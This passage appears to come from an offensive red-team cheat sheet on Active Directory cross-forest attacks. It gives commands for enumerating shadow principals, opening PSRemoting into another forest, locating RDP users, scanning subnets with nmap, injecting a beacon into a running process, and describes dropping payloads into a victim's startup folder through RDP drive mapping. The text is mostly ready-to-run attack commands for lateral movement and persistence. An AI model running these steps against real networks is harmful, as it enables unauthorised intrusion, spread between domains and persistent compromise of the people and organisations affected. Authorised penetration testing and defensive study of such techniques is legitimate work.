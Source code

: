 ````
- Name = name of the shadow principals, member = members of the bastion forest which are mapped to the shadow principals, msDS-ShadowPrincipalSid = SID of the principal (user or group) in the user/production forest whose privileges are assigned to the shadow security principal.
```
Get-ADObject -SearchBase ("CN=Shadow Principal Configuration,CN=Services," + (Get-ADRootDSE).configurationNamingContext) -Filter * -Properties * | select Name,member,msDS-ShadowPrincipalSid | fl
```

#### Pssession to the other forest machine
- Note if Kerberos AES encryption is not enabled for the trust, we need to modify the WSMan TrustedHosts property and use Negotiate authentication for PSRemoting. ```-Authentication NegotiateWithImplicitCredential```
```
Enter-PSSession <FQDN> 
Enter-PSSession <FQDN> -Authentication NegotiateWithImplicitCredential
```
 
## RDPInception
#### Get foreign groups
```
Get-DomainForeignGroupMember -Domain <DOMAIN>
```
 
#### Check local groups on machines
- Run as DA!
```
Get-DomainGPOUserLocalGroupMapping -Identity "<GROUP>" -LocalGroup "Remote Desktop Users" | select -expand ComputerName
Find-DomainLocalGroupMember -GroupName "Remote Desktop Users" | select -expand ComputerName
```
 
#### Check logon sessions on the host
```
net logons
```

#### Check network connections and processes
```
netstat -anop tcp | findstr 3389
ps
```

#### Scan the hosts/subnets in the other doamin
```
nmap -p 139,445,3389,5985 <CIDR>
```

#### Inject in one of the proccesses
```
inject <PID> x64 <BEACON>
```

#### Then move laterally through open ports or query the domain for other privilege escalation methods.
- SMB, winrm, kerberoasting, as-reproasting, password in description, ACL's etc.
- Even if user was not a local admin on any system, or if none of the juicy management ports were available, it can still be possible to move laterally via the established RDP channel. This is where the drive sharing comes into play.
 
### Drive mapping
- When a user enables drive sharing for their RDP session, it creates a mount-point on the target machine that maps back to their local machine. If the target machine is compromised, we may migrate into the user's RDP session and use this mount-point to write files directly onto their machine. This is useful for dropping payloads into their startup folder which would be executed the next time they logon.
````
